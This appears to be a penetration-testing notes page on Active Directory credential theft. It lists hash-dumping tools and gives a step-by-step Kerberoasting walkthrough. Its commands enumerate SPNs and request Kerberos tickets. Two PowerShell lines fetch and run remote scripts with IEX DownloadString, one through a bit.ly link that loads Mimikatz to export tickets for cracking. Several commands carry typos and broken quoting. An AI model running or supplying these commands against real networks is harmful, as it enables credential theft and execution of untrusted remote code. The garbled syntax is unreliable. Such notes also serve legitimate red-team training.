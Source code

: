 {% tabs %}
{% tab title="Tools and Resources" %}
Tools

* [Red Snarf](https://github.com/nccgroup/redsnarf) - RedSnarf is a pen-testing / red-teaming tool by Ed Williams for retrieving hashes and credentials from Windows workstations, servers and domain controllers using OpSec Safe Techniques
* [https://www.kali.org/tools/redsnarf/](https://www.kali.org/tools/redsnarf/)

Resources

* [AD-006 - Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
{% endtab %}

{% tab title="Kerberoasting" %}
Kerberoasting

* Any ticeket can be requested by any user with kerberos, from the domain controller
* Those tickets are encrypted with the NTLM hash of the associated service user.
* If we can guess the password to teh associated service user's NTLM hash, then we now know the password to the actual service account
* Steps:
  * &#x20;List all SPN services. These are the service accounts for which we are going to pull all the kerberos tickets
    * \>setspn -T \[domain] -F -Q \*/\*
  * &#x20;Next we target either a single user SPN or pull all the user Kerberos tickets into our user's memory
    * Single target
      * \>powershell Add-Tpe -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList “HTTP/\[hostname].\[domain].local”
    * All User tickets
      * \>powershell Add-Tpe -AssemblyName System.IdentityModel; IEX (New-Object Net.WebClient).DownloadString("https://githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList $\_.ServicePrincipalName}catch{}
    * &#x20;And the powersploit tool to automate this!
      * [https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
    * Now we have our tickets imported into memory and we need to extract them.
      * Mimikatz Kerberoast export:
      * \>powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2qx4kuH'); Invoke-Mimikatz -Command ‘’'''''kerberos::list /export'''''''
      * Once extracted and on our victims machine and we can start cracking them!
        * use tgsrepcrack.p
{% endtab %}
{% endtabs %}

## Misc

<details><summary>Command Reference</summary></details>

* [SlackPirate](https://github.com/emtunc/SlackPirate) - Slack Enumeration and Extraction Tool - extract sensitive information from a Slack Workspace
* Copy a locked file - [https://github.com/GhostPack/Lockless](https://github.com/GhostPack/Lockless)
